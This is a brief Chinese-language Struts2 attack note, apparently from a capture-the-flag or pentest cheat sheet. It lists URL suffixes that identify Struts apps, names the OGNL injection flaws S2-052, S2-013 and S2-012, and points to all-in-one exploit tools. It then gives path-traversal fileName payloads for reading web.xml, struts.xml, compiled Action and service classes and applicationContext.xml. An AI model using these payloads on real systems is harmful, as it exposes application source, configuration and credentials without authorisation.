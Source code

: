 特征
/index.action
.do
.action
.do.cn.ction
.xhtml
.shtml

漏洞：

s2-052，namespace处插入OGNL代码引发的漏洞。
S2-013，链接标签带入参数时导致的OGNL解析漏洞
S2-012，链接标签带入参数时导致的OGNL解析漏洞

^
一般工具都能一把梭。综合工具abc_123编写的，B站搜希水函一讲堂，可以看使用教程。


^
## **struts2任意文件读取后利用**

常规，发现是struts
```
../../WEB-INF/web.xml
```


^
struts.xml是struts2的核心配置文件，在开发过程中利用率最高。该文件主要负责管理应用中的Action映射，以及该Action包含的Result定义等。
读取struts.xml
```
?fileName=../../WEB-INF/classes/struts.xml
```
同样根据映射下载
```
?fileName=../../WEB-INF/classes/com/cuitctf/action/UserLoginAction.class

类中引用类，同样下载
../../WEB-INF/classes/com/cuitctf/service/UserService.class
```

下载配置文件
```
?fileName=../../WEB-INF/classes/applicationContext.xml
```